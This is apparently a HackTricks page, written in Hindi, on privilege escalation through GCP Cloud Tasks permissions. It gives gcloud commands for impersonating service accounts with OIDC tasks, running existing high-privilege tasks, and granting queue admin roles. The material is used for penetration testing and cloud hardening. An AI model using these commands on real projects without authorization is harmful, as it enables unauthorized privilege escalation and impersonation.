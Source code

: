 # GCP - Cloud Tasks Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Cloud Tasks

### `cloudtasks.tasks.create`, `iam.serviceAccounts.actAs`

इन अनुमतियों के साथ एक हमलावर **अन्य सेवा खातों का अनुकरण** कर सकता है, जो निर्दिष्ट सेवा खाते की पहचान के साथ कार्यों को बनाने की अनुमति देता है। यह **IAM-संरक्षित Cloud Run या Cloud Functions** सेवाओं को **प्रमाणीकृत HTTP अनुरोध भेजने** की अनुमति देता है।
```bash
gcloud tasks create-http-task \
task-$(date '+%Y%m%d%H%M%S') \
--location us-central1 \
--queue <queue_name> \
--url 'https://<service_name>.us-central1.run.app' \
--method POST \
--header 'X-Hello: world' \
--body-content '{"hello":"world"}' \
--oidc-service-account-email <account>@<project_id>.iam.gserviceaccount.com
```
### `cloudtasks.tasks.run`, `cloudtasks.tasks.list`

इन अनुमतियों के साथ एक हमलावर **मौजूदा निर्धारित कार्यों को चला सकता है** बिना उस कार्य से जुड़े सेवा खाते पर अनुमतियों के। यह उच्च विशेषाधिकार वाले सेवा खातों के साथ पहले से बनाए गए कार्यों को निष्पादित करने की अनुमति देता है।
```bash
gcloud tasks run projects/<project_id>/locations/us-central1/queues/<queue_name>/tasks/<task_id>
```
इस कमांड को निष्पादित करने वाला प्रमुख **`iam.serviceAccounts.actAs` अनुमति की आवश्यकता नहीं है** कार्य की सेवा खाते पर। हालाँकि, यह केवल मौजूदा कार्यों को चलाने की अनुमति देता है - यह कार्यों को बनाने या संशोधित करने की क्षमता नहीं देता है।

### `cloudtasks.queues.setIamPolicy`

इस अनुमति के साथ एक हमलावर **अपने लिए या अन्य प्रमुखों को Cloud Tasks भूमिकाएँ प्रदान कर सकता है** विशिष्ट कतारों पर, संभावित रूप से `roles/cloudtasks.admin` तक बढ़ते हुए, जिसमें कार्यों को बनाने और चलाने की क्षमता शामिल है।
```bash
gcloud tasks queues add-iam-policy-binding \
<queue_name> \
--location us-central1 \
--member serviceAccount:<account>@<project_id>.iam.gserviceaccount.com \
--role roles/cloudtasks.admin
```
यह हमलावर को किसी भी सेवा खाते को कतार पर पूर्ण Cloud Tasks व्यवस्थापक अनुमतियाँ देने की अनुमति देता है जिसे वे नियंत्रित करते हैं।

## संदर्भ

- [Google Cloud Tasks Documentation](https://cloud.google.com/tasks/docs)

{{#include ../../../banners/hacktricks-training.md}}

